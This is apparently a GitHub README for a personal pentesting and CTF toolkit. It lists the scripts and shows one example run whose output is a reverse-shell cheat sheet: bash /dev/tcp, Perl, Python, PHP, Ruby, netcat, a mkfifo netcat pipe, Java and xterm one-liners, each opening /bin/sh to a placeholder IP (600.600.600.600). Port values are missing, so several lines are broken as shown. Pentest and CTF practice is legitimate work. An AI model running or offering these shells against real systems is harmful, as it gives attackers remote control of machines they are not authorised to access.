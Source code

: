 # Tools for helping in Pentesting and CTF

This is what I use for my pentesting and CTF. All the functions can be dry
run or you can run them. Each tool is a script in its own folder and can be called with

```
setup.sh <folder> <script>
```

and you can run it with ::
```
setup.sh <folder> <script> run
```

Current scripts:

```
├── privesc
│   ├── linux.sh
│   ├── stabilize.sh
│   └── windows.sh
├── README.md
├── recon
│   ├── nmap.sh
│   ├── smb.sh
│   ├── ssl.sh
│   └── wp.sh
├── setup
│   └── git.sh
├── setup.sh
├── web
│   └── lin.sh
└── webrecon.sh
```

## Example

I am using target IP as "500.500.500.500" here to avoid copy/paster errors.
Similarly I am using 600.600.600.600 as local IP here (which is automatically taken from tun0 if PT_TUN is not defined)

```bash
└──╼ [★ ]# setup.sh privesc stabilize
#!/bin/bash -
#===============================================================================
#
#          FILE: stabilize.sh
#
#         USAGE: ./stabilize.sh
#
#   DESCRIPTION:
#
#       OPTIONS: ---
#  REQUIREMENTS: ---
#          BUGS: ---
#         NOTES: ---
#        AUTHOR: Amit Agarwal (aka),
#  ORGANIZATION: Individual
#       CREATED: 01/01/2021 13:13
#      REVISION:  ---
#===============================================================================

set -o nounset                              # Treat unset variables as an error

## Bash
bash -i >& /dev/tcp/600.600.600.600/ 0>&1
# OR
bash -c "bash -i >& /dev/tcp/600.600.600.600/ 0>&1"

## Perl
perl -e 'use Socket;="600.600.600.600";=;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in(,inet_aton()))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("600.600.600.600",));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

## PHP
php -r '\=fsockopen("600.600.600.600",);exec("/bin/sh -i <&3 >&3 2>&3");'

## Ruby
ruby -rsocket -e'f=TCPSocket.open("600.600.600.600",).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

## netcat
nc -e /bin/sh 600.600.600.600

## nc - my fav
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 600.600.600.600  >/tmp/f

## Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/600.600.600.600/;cat <&5 | while read line; do \ 2>&5 >&5; done"] as String[])
p.waitFor()

## xterm
xterm -display 600.600.600.600:1
Xnest :1
xhost +500.500.500.500

```


# Other Scripts

* bash-port-scan.sh - port scanning with bash
* basic-scan-tmux.sh - scanning a host with variety of tools in interactive manner with tmux session to run multiple tools at same time
* pwn-templ.sh - Generate a template for binary exploitations ( both remote and local with binary path)
* webrecon.sh - Basic reconf for a domain with subdomain enumeration